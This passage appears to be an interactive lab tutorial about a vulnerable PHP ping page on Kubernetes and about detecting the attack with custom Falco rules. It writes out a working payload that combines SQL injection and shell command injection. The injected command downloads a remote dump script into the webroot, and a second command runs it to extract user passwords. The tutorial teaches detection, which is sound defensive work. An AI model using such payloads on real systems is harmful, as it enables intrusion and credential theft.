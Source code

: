 Once the attacker knows the login details for the database, he could easily write a [small rogue program](https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php), and place it in our server:

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; curl https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute}}

Finally, he could invoke his program to get a dump of the database contents, including the table with all our users and their passwords.

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute}}

Detection with Falco
--------------------

Falco help us detect this kind of attacks thanks to these custom rules:

```yaml
- rule: Apache writing to non allowed directory
  desc: Attempt to write to directories that should be immutable
  condition: open_write and container and k8s.ns.name=ping and k8s.deployment.name=ping and not (ping_allowed_dirs and proc.name in (apache2))
  output: "Writing to forbidden directory (user=%user.name command=%proc.cmdline file=%fd.name)"
  priority: ERROR
  tags: [filesystem]

- rule: Forbidden network outbound connection
  desc: A non-whitelisted process is trying to reach the Internet
  condition: outbound and container and k8s.ns.name=ping and k8s.deployment.name=ping and not proc.name in (ping, apache2)
  output: Forbidden outbound connection (user=%user.name command=%proc.cmdline connection=%fd.name)
  priority: ERROR
  tags: [network]
```

The `open_write` macro is true when a process tries to write to a directory holding system binaries.

The `outbound` macro is true when a network connection to the external world is opened.

Take a look at the logs generated by Falco:

`kubectl logs --selector app=falco | grep Error`{{execute}}

You should see something like:

```log
18:44:04.581760211: Error Writing to forbidden directory (user=www-data command=sh [...] file=/var/www/html/dump.php) [...]
18.44.04.590718953: Error Forbidden outbound connection (user=www-data command=curl https:// [...]
```
